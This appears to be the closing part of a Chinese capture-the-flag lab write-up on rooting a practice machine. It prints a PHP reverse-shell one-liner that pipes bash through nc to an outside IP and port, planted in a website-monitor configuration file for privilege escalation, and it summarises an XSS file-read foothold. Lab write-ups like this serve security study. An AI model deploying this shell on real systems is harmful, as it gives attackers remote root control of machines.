  
当前用户刚好是management组，接下来很简单，写一个php反弹shell即可

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f |/bin/bash -i 2>&1 | nc 10.10.16.41 7878 >/tmp/f");?>
```

把这个写入到/opt/website-monitor/config/configuration.php，同时开启监听，稍等片刻，Root！


## 总结

整体来说这台靶机不难，属于easy偏上一点，主要难的地方在于XSS，在网上经过一番搜索后，找到了可利用点，通过xss来读取敏感文件，建立了立足点，后续提权只需要pspy64监控一下进程即可
